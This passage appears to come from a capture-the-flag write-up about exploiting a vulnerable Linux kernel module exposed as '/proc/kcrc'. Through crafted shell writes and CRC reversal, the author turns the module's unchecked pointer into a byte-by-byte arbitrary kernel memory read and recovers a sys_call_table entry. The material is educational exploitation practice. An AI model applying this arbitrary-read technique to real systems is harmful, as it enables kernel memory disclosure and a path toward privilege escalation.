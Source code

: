 At this part, we get the gist of the code. I am intrigued to see it working.

I began by writing this (also, note we have access to the addresses of `/proc/kallsyms`):
```c
/ $ cat /proc/kallsyms | grep sys_call
c11b48c0 t proc_sys_call_handler.isra.8
c15fa020 R sys_call_table
/ $ echo -ne '\xdd\x0a\x00\x00\x20\xa0\x5f\xc1\x64\x00\x00\x00' > /proc/kcrc
[ 1731.315997] crc generated! 1a2bdb67
```

Which gave me the CRC of the 100 bytes of the sys_call_table! Now, this actually gave me an idea. We control the memory we read, and also the amount of memory we read. Does this not give us a strong primitive of arbitrary-read?

If we read 1 byte at a time, we can simply calculate the byte directly from the CRC!

So, we have an arbitrary read primitive here which is quite strong as it can read kernel data freely. 

I decided to try it out to see whether we can actually use it. I wrote a `crc reversing` algorithm which is quite simple, and used it on each CRC I got for the first address of the `sys_call_table`:
```shell
/ $ echo -ne '\xdd\x0a\x00\x00\x20\xa0\x5f\xc1\x01\x00\x00\x00' > /proc/kcrc
[ 2954.621045] crc generated! 54d13d59
sh: write error: Operation not permitted
/ $ echo -ne '\xdd\x0a\x00\x00\x21\xa0\x5f\xc1\x01\x00\x00\x00' > /proc/kcrc
[ 2968.220273] crc generated! 92dde4eb
sh: write error: Operation not permitted
/ $ echo -ne '\xdd\x0a\x00\x00\x22\xa0\x5f\xc1\x01\x00\x00\x00' > /proc/kcrc
[ 2981.614489] crc generated! a2681b02
sh: write error: Operation not permitted
/ $ echo -ne '\xdd\x0a\x00\x00\x23\xa0\x5f\xc1\x01\x00\x00\x00' > /proc/kcrc
[ 2991.314071] crc generated! 3e611dab
sh: write error: Operation not permitted

~/pwn/kcrc$ ./reverse-crc 0x54d13d59
Byte: 0xd0
~/pwn/kcrc$ ./reverse-crc 0x92dde4eb
Byte: 0xea
~/pwn/kcrc$ ./reverse-crc 0xa2681b02
Byte: 0x05
~/pwn/kcrc$ ./reverse-crc 3e611dab
Byte: 0xc1

/ $ cat /proc/kallsyms | grep c105ead0
c105ead0 T sys_restart_syscall
```

This was actually pretty crazy to me that it worked first time. That gives us an extremely strong primitive that basically lets us read the entire virtual memory space of both the kernel and the user (of course within read permissions of the pages), due to not checking whether the `ptr` provided is valid. 

Later on, we will make the `crc reversing` script more generic and make it interact with the `/proc/kcrc` itself, of course. First, we need to understand what kind of attack we want to do, and understand if we have any other primitives.
